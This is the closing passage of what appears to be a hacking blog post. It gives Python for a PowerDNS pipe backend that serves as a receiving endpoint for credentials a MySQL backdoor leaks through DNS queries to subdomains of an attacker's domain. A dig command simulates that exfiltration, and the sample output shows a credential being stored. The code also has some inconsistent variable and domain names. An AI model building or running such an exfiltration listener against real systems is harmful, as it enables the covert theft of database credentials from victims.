```python
                 stderr.flush()
         else:
                 stderr.write("  - ERROR\n")
                 stderr.flush()
         # Answer the request
         handleA(qname, ipaddress)

# Alive check
 stderr.write( stdin.readline() ) # Use STDERR to print debug info
 stderr.flush()
 stdout.write("Alive!\n")
 stdout.flush()

 # Read incoming requests
 while True:
         indata = readLine() # Extract info from request
         if len(indata) < 6: # Weird thing, not the kind of message we want
                 continue
         qname = indata[1].lower() # Name queried (QNAME)
         qtype = indata[3] # Resource being requested (QTYPE)
         # Check if the request is for us
         if qname.endswith(domain):
                 # If this is ok, then we can answer the request based on the QTYPE
                 if qtype == "SOA":
                         stderr.write("[+] SOA request\n") # Just to debug :)
                         stderr.flush()
                         handleSoa(qname)
                 if (qtype == "A" or qtype == "ANY"):
                         stderr.write("[+] A or ANY request\n") # Just do debug :)
                         stderr.flush()
                         if qname == domain: # No subdomains
                                 handleA(domain, ipadress)
                         elif (qname == "ns1." + domain or qname == "ns2." + qname): # Asking for NS servers
                                 handleNS(qname)
                         elif (qname.endswith("cdn." + domain)): # xxxx.cdn.gamusino.net
                                 saveCredential(qname)
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Now emulate a request from a MySQL backdoor (`dig A bmandanga.cdn.gamusinos.net`) and enjoy:

```
[+] SOA request
[+] A or ANY request
        [+] Storing new credential!
        - Credential from MySQL backdoor
```

## 0x04 Final Words
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Discovering PowerDNS and backend pipes made my life a lot more easy. Just in few minutes you have a powerfull endpoint ready to work. If you find this article interesting, or spot any error or typo, feel free to contact me at twitter [@TheXC3LL](https://twitter.com/TheXC3LL).
